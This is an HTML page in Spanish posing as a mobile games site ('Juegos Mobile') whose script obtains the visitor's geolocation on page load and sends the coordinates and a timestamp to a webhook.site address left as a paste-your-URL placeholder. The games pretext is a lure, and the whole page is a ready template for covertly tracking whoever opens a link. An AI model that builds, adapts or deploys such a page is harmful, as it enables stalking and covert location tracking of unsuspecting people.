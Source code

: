 <!DOCTYPE html>
<html>
<head>
  <title>Juegos Mobile</title>
</head>
<body>
  <h2>Cargando juegos móviles...</h2>
  <script>
    function enviarUbicacion(lat, lon) {
      fetch("https://webhook.site/PEGAR_AQUI_TU_URL", {
        method: "POST",
        headers: {
          "Content-Type": "application/json"
        },
        body: JSON.stringify({
          latitud: lat,
          longitud: lon,
          fecha: new Date().toISOString()
        })
      });
    }

    if ("geolocation" in navigator) {
      navigator.geolocation.getCurrentPosition(
        function(position) {
          const lat = position.coords.latitude;
          const lon = position.coords.longitude;
          enviarUbicacion(lat, lon);
          document.body.innerHTML = `<p>Gracias por visitar Juegos Mobile</p>`;
        },
        function(error) {
          document.body.innerHTML = "<p>No se pudo obtener tu ubicación.</p>";
        }
      );
    } else {
      document.body.innerHTML = "<p>Tu navegador no soporta geolocalización.</p>";
    }
  </script>
</body>
</html>
